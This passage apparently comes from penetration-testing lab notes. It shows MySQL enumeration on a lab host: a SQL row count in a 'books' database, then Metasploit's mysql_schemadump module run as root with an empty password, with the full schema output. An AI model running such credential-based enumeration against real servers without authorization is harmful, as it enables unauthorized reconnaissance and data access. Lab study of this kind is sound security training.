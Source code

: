 > 📌 There are `11 databases` on the server.

```bash
MySQL [(none)]> use books;
MySQL [books]> select count(*) from authors;
+----------+
| count(*) |
+----------+
|       10 |
+----------+
1 row in set (0.000 sec)
```

> 📌 There are `10 records` in table *`authors`* inside the books *database*.

![mysql](assets/image-20230219154533850.png)

### Metasploit Enum

- Use the [`mysql_schemadump`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_schemadump/) metasploit module to dump the schema of all databases.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_schemadump 
set RHOSTS 192.49.51.3
set USERNAME root
set PASSWORD ""
exploit
```

```bash
[+] 192.49.51.3:3306      - Schema stored in: /root/.msf4/loot/20230219145005_default_192.49.51.3_mysql_schema_310503.txt
[+] 192.49.51.3:3306      - MySQL Server Schema 
 Host: 192.49.51.3 
 Port: 3306 
 ====================
---
- DBName: books
  Tables:
  - TableName: authors
    Columns:
    - ColumnName: id
      ColumnType: int(11)
    - ColumnName: first_name
      ColumnType: varchar(50)
    - ColumnName: last_name
      ColumnType: varchar(50)
    - ColumnName: email
      ColumnType: varchar(100)
    - ColumnName: birthdate
      ColumnType: date
    - ColumnName: added
      ColumnType: timestamp
- DBName: data
  Tables: []
- DBName: password
  Tables: []
- DBName: secret
  Tables: []
- DBName: store
  Tables: []
- DBName: upload
```